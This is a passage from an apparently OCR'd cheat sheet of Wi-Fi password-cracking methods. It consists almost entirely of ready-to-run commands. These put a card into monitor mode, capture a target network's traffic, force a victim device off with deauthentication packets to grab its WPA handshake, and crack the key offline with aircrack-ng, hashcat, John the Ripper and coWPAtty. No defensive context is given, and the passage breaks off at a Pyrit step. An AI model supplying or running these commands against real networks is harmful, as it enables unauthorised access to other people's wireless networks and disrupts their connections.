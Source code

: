 Note - AP must support WPS; use --delay or --lock-delay if locked out

### Method 2 - Dictionary Attack (aircrack-ng)
airmon-ng start wlan0

airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon

aireplay-ng -0 10 -a <BSSID> -c <VictimMac> wlan0mon - Capture handshake

aircrack-ng -w <WordlistFile> -b <BSSID> <FileName-01.cap>

### Method 3 - Crack with Hashcat (Modern GPU Attack)
airmon-ng start wlan0

airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon

aireplay-ng -0 10 -a <BSSID> -c <VictimMac> wlan0mon - Capture handshake

Convert cap to hccapx (for Hashcat)

hcxtools -o <FileName>.hccapx <FileName-01.cap>

Crack with Hashcat

hashcat -m 2500 -a 0 <FileName>.hccapx <WordlistFile> --force

Show cracked key

hashcat -m 2500 <FileName>.hccapx --show

### Method 4 - Crack with John The Ripper
airmon-ng start wlan0

airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> wlan0mon

aireplay-ng -0 10 -a <BSSID> -c <VictimMac> wlan0mon

Convert cap to John format

aircrack-ng <FileName-01.cap> -J <JohnFile>

cd /pentest/passwords/john

./john --wordlist=<Wordlist> --rules <JohnFile>

### Method 5 - Crack with coWPAtty
airmon-ng start wlan0

airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> wlan0mon

aireplay-ng -0 10 -a <BSSID> -c <VictimMac> wlan0mon

cowpatty -r <FileName-01.cap> -f <Wordlist> -s <ESSID>

Precompute hashes (faster cracking)

genpmk -s <ESSID> -f <Wordlist> -d <HashesFileName>

cowpatty -r <FileName-01.cap> -d <HashesFileName> -s <ESSID>

### Method 6 - Crack with Pyrit
Prerequisite - Install Pyrit with GPU support (apt-get install pyrit)
